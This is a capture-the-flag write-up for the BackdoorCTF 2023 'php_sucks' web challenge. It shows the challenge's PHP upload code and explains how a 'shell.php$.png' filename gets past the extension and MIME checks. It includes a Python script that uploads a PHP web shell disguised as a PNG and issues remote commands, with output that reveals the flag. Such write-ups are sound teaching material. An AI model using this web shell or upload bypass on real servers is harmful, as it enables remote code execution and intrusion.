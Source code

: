 ```yaml
---
title: php_sucks
date: 2023-12-16 21:43:00 + 0530
categories: [writeup, web]
tags: [BackdoorCTF2023]     # TAG names should always be lowercase
---
```


## The Challenge

> I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it
>
> http://34.132.132.69:8002/chal/upload.php
>
> Attachment: php_sucks.zip

```php
<?php $allowedExtensions = ["jpg", "jpeg", "png"];
$errorMsg = "";
if (
    $_SERVER["REQUEST_METHOD"] === "POST" &&
    isset($_FILES["file"]) &&
    isset($_POST["name"])
) {
    $userName = $_POST["name"];
    $uploadDir = "uploaded/" . generateHashedDirectory($userName) . "/";
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0750, true);
    }
    $uploadedFile = $_FILES["file"];
    $fileName = $uploadedFile["name"];
    $fileTmpName = $uploadedFile["tmp_name"];
    $fileError = $uploadedFile["error"];
    $fileSize = $uploadedFile["size"];
    $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
    if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000) {
        $fileName = urldecode($fileName);
        $fileInfo = finfo_open(FILEINFO_MIME_TYPE);
        $fileMimeType = finfo_file($fileInfo, $fileTmpName);
        finfo_close($fileInfo);
        $allowedMimeTypes = ["image/jpeg", "image/jpg", "image/png"];
        $fileName = strtok($fileName, chr(7841151584512418084));
        if (in_array($fileMimeType, $allowedMimeTypes)) {
            if ($fileError === UPLOAD_ERR_OK) {
                if (move_uploaded_file($fileTmpName, $uploadDir . $fileName)) {
                    chmod($uploadDir . $fileName, 0440);
                    echo "File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
                } else {
                    $errorMsg = "Error moving the uploaded file.";
                }
            } else {
                $errorMsg = "File upload failed with error code: $fileError";
            }
        } else {
            $errorMsg = "Don't try to fool me, this is not a png file";
        }
    } else {
        $errorMsg =
            "File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
    }
}
function generateHashedDirectory($userName)
{
    $randomSalt = bin2hex(random_bytes(16));
    $hashedDirectory = hash("sha256", $userName . $randomSalt);
    return $hashedDirectory;
} ?>

...
```
{: file="upload.php"}

## The Solution


The only thing that comes to my mind after reading the source code is LFI to RCE vuln. But the question is how?

The backend implementation seems pretty secure since it checks:
- The file extension from the `$allowedExtensions = ["jpg", "jpeg", "png"]`
- And also the mime type by the file headers

So the only way we can successfully upload a file on their server is to upload an actual image ( or at least the image headers ) with the file extension `.jpg`, `.jpeg` or `.png`.

However if you take a closer look at the code, you will find a weird line `$fileName = strtok($fileName, chr(7841151584512418084));`. If the above conditions are met and the image is uploaded successfully, then the `$fileName` is modified just before storing it on the filesystem. But how exactly is it modified? According to the [official PHP documentation](https://www.php.net/manual/en/function.strtok.php):
> strtok() splits a string (string) into smaller strings (tokens), with each token being delimited by any character from token. That is, if you have a string like "This is an example string" you could tokenize this string into its individual words by using the space character as the token.

Basically if you have something like `strtok('This is a string', ' ')`, it will return `This`, similarly the weird looking line will replace `fileName` to a substring until the character 7841151584512418084. According to PHP that character is `$`:
```console
php > echo(chr(7841151584512418084));
$
php >
```

This is cool, because if we inject PHP backdoor into a PNG file and rename it as `shell.php$.png` it will pass both the checks since it has PNG magic bytes and a `.png` extension. Also before saving it, it should be renamed to `shell.php` allowing us to successfully upload a php backdoor. Let's test this locally:
```console
php > echo(strtok('shell.php$.png', chr(7841151584512418084)));
shell.php
php >
```

Since it works, let's make a simply python script to pop a pseudo-shell:
```python
import requests
import re

header = b'\x89\x50\x4E\x47\x0D\x0A\x1A\x0A'
payload = b'<?php system($_GET["cmd"]); __halt_compiler(); ?>'

filename = 'shell.php$.png'

with open(filename, 'wb') as f:
    f.write(header)
    f.write(payload)

url = 'http://35.222.114.240:8002/chal/'

with requests.Session() as session:
    try:
        with open(filename, "rb") as file:
            files = {"file": file}
            data = {"name": "VulnX"}  # Separate data for the "name" field
            response = session.post(url + 'upload.php', files=files, data=data)

            link = url + re.search("a href='(.*?)'", response.text).group(1)

            while(1):
                cmd = input('$ ')
                response = session.get(link + '?cmd=' + requests.utils.quote(cmd))
                print(response.text)

    except requests.exceptions.RequestException as e:
        print("Error:", e)
```
{: file="solve.py"}

And obviously get the flag:
```console
> python solve.py
$ id
�PNG

uid=1000(ctf-player) gid=1000(ctf-player) groups=1000(ctf-player)

$ ls /var/www/html/chal
�PNG

s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
upload.php
uploaded

$ cat /var/www/html/chal/s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
�PNG

flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```

## FLAG

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

